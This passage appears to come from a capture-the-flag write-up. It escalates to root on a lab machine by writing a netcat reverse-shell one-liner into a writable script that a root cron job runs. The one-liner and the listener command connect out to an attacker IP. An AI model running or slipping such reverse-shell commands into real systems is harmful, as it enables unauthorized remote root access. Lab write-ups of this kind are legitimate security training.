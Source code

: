 ```
lennie@startup:~/scripts$ cat startup_list.txt 

```
The ```startup_list.txt``` file is empty, unfortunately. However, the ```planner.sh``` script is set to run as root and it seems to invocate another small script:
```
lennie@startup:~/scripts$ ls -la
total 16
drwxr-xr-x 2 root   root   4096 Nov 12 04:54 .
drwx------ 4 lennie lennie 4096 Nov 12 04:53 ..
-rwxr-xr-x 1 root   root     77 Nov 12 04:53 planner.sh
-rw-r--r-- 1 root   root      1 Feb 13 20:16 startup_list.txt
lennie@startup:~/scripts$ cat /etc/print.sh
#!/bin/bash
echo "Done!"
```
It seems that ```/etc/print.sh``` is owned by ```lennie```. I was hoping to find somewhere whether the ```planner.sh``` is a cronjob run as ```root```, but I just couldn't find it anywhere. So I put my faith in my CTF experience and hoped it is indeed a cronjob, as it seems to be very similar to other CTF situations. So, let's try our luck and write to ```/etc/print.sh``` a reverse shell and see if we get the
```root``` shell.
First start our ```netcat``` listener:
```
nc -nlvp 1234
```
And add the following one-liner in ```/etc/print.sh```:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.135.88 1234 >/tmp/f
```

And, luckily, it is indeed a cronjob and we receive a ```root``` shell! Let's get our flag and finish.
```
# whoami
root
# cat /root/root.txt
```
